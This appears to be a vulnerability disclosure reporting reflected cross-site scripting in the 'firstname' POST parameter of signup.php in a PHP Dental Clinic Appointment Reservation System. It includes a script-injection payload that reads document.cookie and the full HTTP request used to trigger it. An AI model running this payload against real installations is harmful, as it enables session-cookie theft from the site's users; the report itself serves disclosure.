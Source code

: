 # Dental Clinic Appointment Reservation System v1.0 has Cross-site scripting (reflected)

BUG_Author:niclo

Website source address:https://www.sourcecodester.com/php/6848/appointment-reservation-system.html

Vulnerability File: /APR/signup.php

POST parameter 'firstname' exists XSS vulnerability

Payload:firstname=a"><script>alert(document.cookie)</script>&lastname=b&middlename=c&gender=Male&age=1&username=g&password=h&submit=&address=d&contact_no=e&email=f&code=j&cpassword=h

```
POST /APR/signup.php HTTP/1.1
Host: localhost
Content-Length: 174
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/APR/signup.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=k65tutg8g9o2qq8lc3vsi85rn7
Connection: close

firstname=a"><script>alert(document.cookie)</script>&lastname=b&middlename=c&gender=Male&age=1&username=g&password=h&submit=&address=d&contact_no=e&email=f&code=j&cpassword=h
```

print cookie successfully

![image](https://github.com/nightcloudos/picture/blob/main/cookie.png)
